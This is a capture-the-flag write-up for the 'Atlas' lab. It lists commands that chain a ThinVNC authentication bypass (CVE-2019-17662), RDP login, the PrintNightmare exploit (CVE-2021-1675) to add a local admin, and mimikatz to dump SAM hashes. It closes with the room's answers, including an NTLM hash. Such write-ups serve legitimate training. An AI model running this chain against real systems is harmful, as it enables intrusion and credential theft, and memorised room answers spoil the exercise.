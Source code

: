 # Atlas - Easy

```shell
nmap -T4 -A -Pn -v 10.10.14.130

curl 10.10.14.130:8080 -v

#get exploit from GitHub
chmod +x CVE-2019-17662.py

./CVE-2019-17662.py

./CVE-2019-17662.py -h

./CVE-2019-17662.py 10.10.14.130 8080

xfreerdp /v:10.10.14.130 /u:Atlas /p:H0ldUpTheHe@vens /cert:ignore +clipboard /dynamic-resolution /drive:share,/tmp
#/drive:share,tmp lets us share our /tmp directory with target

#download CVE-2021-1675.ps1 in /tmp in attacker machine

#in victim rdp, open powershell
. \\tsclient\share\CVE-2021-1675.ps1
#this imports the .ps1

#run exploit
Invoke-Nightmare
#creates new user

Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n
#use new user creds to spawn cmd.exe

whoami /groups
#part of BUILTIN\Administrators

#download mimikatz_trunk.zip in /tmp
#in attacker machine
unzip mimikatz_trunk.zip

#in victim rdp session
\\tsclient\share\x64\mimikatz.exe
#executes mimikatz

privilege::debug
#'20' OK

token::elevate

#dump hashes
lsadump::sam
```

* Open ports & services:

  * 3389 - ms-wbt-server
  * 8080 - http-proxy

* We can try accessing the webpage on port 8080 - this gives us a prompt for basic authentication.

* We do not know the creds, so we can attempt to send a request using ```cURL``` to check for clues.

* Using ```cURL```, we can see that the webpage is for 'ThinVNC' - we can check if any exploits exist for this.

* We get a ThinVNC authentication bypass exploit, for CVE-2019-17662.

* We get the Python script for the exploit from Github; running the script with the required parameters fetches creds from ThinVnc.ini

* We have the creds Atlas:H0ldUpTheHe@vens; we can log into the website now.

* With ThinVNC, we can access the victim machine's Desktop by submitting its IP as input.

* However, it is not easy to use, so we can try to reuse the same creds for ```xfreerdp```, and it works.

* We are given a clue about the PrintSpooler exploit covered in CVE-2021-1675 - we can download the .ps1 exploit script and move it to /tmp in attacker machine.

* In victim machine, we can open PowerShell and run the exploit script.

* This creates a new user adm1n:P@ssw0rd with local admin privileges.

* We can spawn a new cmd.exe as the new user.

* Using ```mimikatz```, we can dump hashes now.

```markdown
1. With the Nmap default port range, you should find that two ports are open. What port numbers are these? - 3389,8080

2. What service does Nmap think is running on the higher of the two ports? - http-proxy

3. What is the Administrator account's NTLM password hash? - c16444961f67af7eea7e420b65c8c3eb
```

